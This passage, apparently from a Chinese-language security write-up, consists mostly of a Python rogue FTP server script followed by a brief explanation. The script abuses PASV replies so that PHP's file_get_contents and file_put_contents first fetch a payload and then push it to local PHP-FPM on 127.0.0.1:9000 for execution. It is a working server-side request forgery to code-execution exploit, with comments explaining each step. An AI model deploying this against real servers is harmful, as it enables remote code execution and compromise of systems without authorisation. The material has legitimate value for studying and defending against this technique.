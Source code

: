 ```plain
    if count == 1:
        conn.send(b"220 ready\n")
    else:
        conn.send(b"200 ready\n")

    print(conn.recv(20))   # TYPE I\r\n  客户端告诉服务端以什么格式传输数据，TYPE I表示二进制， TYPE A表示文本
    if count == 1:
        conn.send(b"215 \n")
    else:
        conn.send(b"200 \n")

    print(conn.recv(20))  # SIZE /123\r\n  客户端询问文件/123的大小
    if count == 1:
        conn.send(b"213 3 \n")  
    else:
        conn.send(b"300 \n")

    print(conn.recv(20))  # EPSV\r\n'
    conn.send(b"200 \n")

    print(conn.recv(20))   # PASV\r\n  客户端告诉服务端进入被动连接模式
    if count == 1:
        conn.send(b"227 192,168,116,132,4,210\n")  #服务端告诉客户端需要到ip获取数据，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000

    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据连接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()

    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```

**原理：**

1. `file_get_contents`通过ftp协议访问指定的ftp服务器下载文件
2. `file_put_contents`传回ftp服务器文件指定，在客户端中搜索并解析,第一次将请求发送到PHP-fpm中，然后php-fpm执行代码.
